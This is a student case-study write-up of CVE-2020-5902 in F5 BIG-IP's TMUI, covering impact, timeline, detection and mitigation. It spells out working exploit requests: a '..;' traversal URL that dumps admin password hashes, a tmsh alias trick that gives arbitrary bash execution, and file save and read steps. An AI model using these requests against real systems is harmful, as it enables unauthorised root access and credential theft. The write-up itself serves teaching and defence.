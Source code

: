 # CVE 2020-5902

![alt text](https://www.zdnet.com/a/hub/i/2020/07/03/b6c96e0e-7da9-461a-adff-d6009723189a/f5-networks.jpg "F5 Networks Logo")

_Presented by: Tharmiga Loganathan, Manavjot Singh, Mili Choksi_

**Vulnerability Highlights:**

CVSS 3.x: 9.8 (Critical)

CVSS 2.0: 10.0 (High)

_The CVE 2020-5902 vulnerability impacted F5 Network's suite of load-balancing software products called BIG-IP last July. It is a code injection attack that can give hackers root level privileges to vulnerable systems! According to Shodan, there were 8,000 exposed devices at one point with an estimated 2,000 of those devices actually vulnerable to this exploit._

> **What is Shodan?**
> At first look, Shodan can be used to search devices connected to the Internet according to different filters. However, in more negative use-cases, it can be used streamline the process of searching for vulnerable devices.
  

## What is BIG-IP? + Why Should I Care?

BIG-IP is a family of software and hardware solutions from F5 Networks. While it originally started out as a load balancer, it has now expanded to offer complimentary services such as traffic management, access control, security and optimization. Load balancers work by providing a virtual IP on behalf of numerous other devices. This is a service that allows large scale applications to seamlessly serve its customers without a bottleneck. 

This exploit is particularly impactful because it can not only impact the load balancing server itself but also any device that is behind the load balancer. 
  
Moreover, even if you aren't running an F5 BIG-IP device, but have some external link to a javascript library included in your application, your application may also be exposed! If the resource happens to be behind a BIG-IP load balancer that is vulnerable, your application can also be exploited. Using subresource integrity can help make you immune to this sort of vulnerability and it is also best practice when it comes to including external libraries in your application, more on this will be discussed later in the reprot. This highlights the importance of staying on top of cybersecurity news and taking all precautions posisble when building your application!

## CVE Timeline

There has been a rise in the number of vulnerabilities among similar software products around the time this vulnerability came out. The very day the exploit got out, F5 Networks has created many articles, videos, and Q&A sessions designed to help its customers keep their systems safe. But it didn't take long for **many** proof of concept code snippets to pop up on GitHub.

![alt text](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/PoC%20scripts%20published%20to%20GitHub.png "GitHub Exploit Code")

Let's dive right into the exploit now!

## The Exploit

This code injection vulnerability impacts the TMUI (configuration utility for the BIG-IP) and can allow unauthenicated users to execute system commands, create or delete files, disable services or execute Java code. The TMUI is a web application that is installed within the device that provides an admin interface. The following is the vulnerable URL:
```
https://[hostname]/tmui/login.jsp
```
The exploit is a "..;" following the above URL. The URL below is an example of an exploitable URL that will return a list of all of the admin users along with their password hashes:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

> **The Three Most Common Exploits**
> 
> Execute Command (only allows for tmsh commands):
> ```
> /tmui/locallb/workspace/tmshCmd.jsp
> ```
> 
> Read Files:
> ```
> /tmui/locallb/workspace/fileRead.jsp
> ```
> 
> Write Files:
> ```
> /tmui/locallb/workspace/fileSave.jsp
> ```

While the above execute command can only access tmsh commands, you can use "create alias" to allow execution of any bash command! "Create alias" can be used to link the tmsh "list" command to the "bash" command. The following is what the command will look like:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

Once the alias is created, more requests can be sent in the same manner in subsequent requests containing any bash commands the user would like to execute, the word "bash" in the command must simply be replaced with "list". 

Alternatively, instead of continually executing one line bash commands, you may want to have a whole script execute. You can save and execute a bash script on the server. First, you can save the script like so:

```
fileSave.jsp?fileName=/tmp/cmd&content=id
```

Second, execute the script like so (remember "list" actually means "bash":

```
tmshCmd.jsp?command=list+/tmp/cmd
```

Finally, in order to delete the alias and clean up:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list
```

## Detecting Exploits 

The following command can be used as a test to see if you are vulnerable. If the exploit works, it means you are vulnerable and it will simply return the version of BIG-IP you are currently running:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```
If you find that you are vulnerable, you may want to also check to check your logs to see if you have been exploited. You may see signs of an exploit by reviewing your logs at `/var/log/audit`. More specifically, based on what we've learned, you may notice a `cmd_data=delete cli alias private list` if a hacker has tried to delete the alias they have created.

You are also likely to find files in `/tmp` created by "tomcat" that have bash commands in them.


## Mitigation

There is a patch F5 has published, F5 recommends that you update to the latest version. 

However, the number one way to prevent this is to not expose the admin interface of the server to the public in the first place. Best practice instead would be to require a VPN to access the interface. This was actually warned against by F5 multiple times, but people who haven't listened still remain vulnerable.

As mentioned earlier, you may still be vulnerable even if you are not using an F5 server. If your application contains an external link to a Javascript library for example, and _that_ server is behind a BIG-IP, you may still be vulnerable. Again, the number one prevention in this scenario is to use best practices. Best practices when using external libaries would be to use subresource integrity, this is a hash that is added to the script. This ensures that the browser checks to make sure the has matches each time the library is loaded, if the hash doesn't match, the library won't load altogether and you will remain protected. This is an example of what that might look like:

```
<script src="https://example.com/something.js" integrity="sha384-oqVuAfap76u8xc" crossorigin="anonymous"></script>
```

## Key Takeaways

This case study highlights the importance of staying on top of cybersecurity news and to use best practices when configuring and server and/or building any web application.

## Resources

[CVE 2020-5902 Quick Overview and Impact](https://www.tenable.com/blog/cve-2020-5902-critical-vulnerability-in-f5-big-ip-traffic-management-user-interface-tmui)
[What is BIG-IP](https://devcentral.f5.com/s/articles/what-is-big-ip-24596#:~:text=F5's%20BIG%2DIP%20is%20a,access%20control%2C%20and%20security%20solutions.&text=This%20is%20different%20from%20BIG,F5%20Silverline%2C%20F5's%20SaaS%20platform.) 
[Understanding the Exploit](https://www.youtube.com/watch?v=NmZFwE537Zg&ab_channel=SANSInstitute)
[Protecting Against BIG-IP Vulnerability](https://www.f5.com/services/support/big-ip-vulnerability-cve-2020-5902)

